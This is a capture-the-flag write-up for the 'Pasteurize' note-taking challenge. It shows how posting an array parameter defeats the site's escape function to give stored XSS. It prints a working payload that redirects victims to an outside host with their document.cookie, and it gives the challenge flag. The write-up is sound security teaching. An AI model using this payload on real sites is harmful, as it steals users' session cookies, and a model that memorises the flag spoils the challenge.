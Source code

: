 # Pasteurize
*Solution and write-up by team [Kalmarunionen](https://capturetheflag.withgoogle.com/scoreboard/kalmarunionen).*

This is a simple website which allows the user to create notes. Unintendedly, we can get full stored XSS on the website.

## Details

Post an array instead of a single value, then we can just inject JS directly. Vulnerable code:
```
const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1)
  .replace(/</g, '\\x3C').replace(/>/g, '\\x3E');
```

POST with `content=alert()` yields the expected:

```
<script>
        const note = "alert()";
        const note_id = "8028b109-cac1-4351-ad42-16c61cded87d";
...
```

POST with `content[]=; alert(); //` yields XSS:
```
<script>
        const note = ""; alert(); //"";
        const note_id = "8028b109-cac1-4351-ad42-16c61cded87d";
```

Thus, from here it is a simply matter of e.g. redirecting to steal the cookie. Payload is `; window.location = 'http://xss.wep.dk/log/5f40ca5c92911/writeup/?' + document.cookie; //`, yielding the result:
```
<script>
        const note = ""; window.location = 'http://xss.wep.dk/log/5f40ca5c92911/writeup/?' + document.cookie; //"";
        const note_id = "8028b109-cac1-4351-ad42-16c61cded87d";        
```

And thereby leaking the flag. The result can be observed on our website: http://xss.wep.dk/?id=5f40ca5c92911

## FLAG
Flag: `CTF{Express_t0_Tr0ubl3s}`
